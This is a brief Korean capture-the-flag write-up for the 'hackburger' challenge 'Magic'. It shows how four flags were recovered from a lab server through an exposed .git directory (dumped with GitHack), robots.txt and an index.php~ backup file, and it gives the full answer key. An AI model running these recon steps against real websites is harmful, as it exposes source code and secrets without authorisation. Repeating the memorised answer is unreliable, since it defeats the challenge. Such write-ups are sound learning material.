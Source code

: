 # [hackburger] Magic - Writeup

아무것도 없는 페이지의 주소를 주며 풀라고 한다..

___

## Flag1 - GitHack

```
python GitHack.py http://burger.laboratorium.ee:8006/.git/
```

GitHack을 돌리면 `index.php` 파일이 나오는데, flag1이 있다.

([https://github.com/lijiejie/GitHack/tree/b83a7445b2634703bb94423ca6cff6f9fb2a1d48](https://github.com/lijiejie/GitHack/tree/b83a7445b2634703bb94423ca6cff6f9fb2a1d48))

```
Congratulations!

Flag 1 of 4 is: 47b9664515420d44d2c77dc593f7514ccbd17be8

Please enter all flags, separated by underscore (_).
```

___

## Flag2 - robots.txt

[http://burger.laboratorium.ee:8006/robots.txt](http://burger.laboratorium.ee:8006/robots.txt)
```
Congratulations!

Flag 2 of 4 is: 392d28473a135c2491c227f373d0eed0310e13e3

Please enter 4 flags, separated by underscore (_).
```

___

## Flag3 - Pass

문제 설명을 보면 flag3는 `0`이라고 한다.

___

## Flag4 - Backup File

[http://burger.laboratorium.ee:8006/index.php%7E](http://burger.laboratorium.ee:8006/index.php%7E)

```
Congratulations!

Flag 4 of 4 is: ebb696a5abb04c8875a0afa29f6dc8d167db67e8
Please enter 4 flags, separated by underscore (_).
```

___

## Answer

flag: `47b9664515420d44d2c77dc593f7514ccbd17be8_392d28473a135c2491c227f373d0eed0310e13e3_0_ebb696a5abb04c8875a0afa29f6dc8d167db67e8`